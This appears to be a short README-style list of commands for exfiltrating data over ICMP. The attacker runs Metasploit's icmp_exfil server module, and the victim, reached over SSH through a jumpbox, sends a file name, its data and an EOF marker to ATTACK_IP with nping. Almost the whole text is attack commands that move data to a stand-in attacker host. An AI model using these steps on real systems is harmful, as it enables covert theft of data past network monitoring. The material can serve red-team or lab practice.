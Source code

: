### Commands:

#### 1) Attacker: msfconsole

#### 2) use auxiliary/server/icmp_exfil

#### 3) set BPF_FILTER icmp and not src ATTACKER_IP

#### 4) set INTERFACE OUR_INTERFACE

#### 5) run

#### 6) Jumpbox: ssh USER@VICTIM_DOMAIN

#### 7) Victim: sudo nping --icmp -c 1 ATTACK_IP --data-string

#### 8) Victim: sudo nping --icmp -c 1 ATTACK_IP "BOFFile.txt" --data-string "data"

#### 9) sudo nping --icmp -c 1 ATTACK_IP --data-string "EOF"

#### 10) Attacker: run
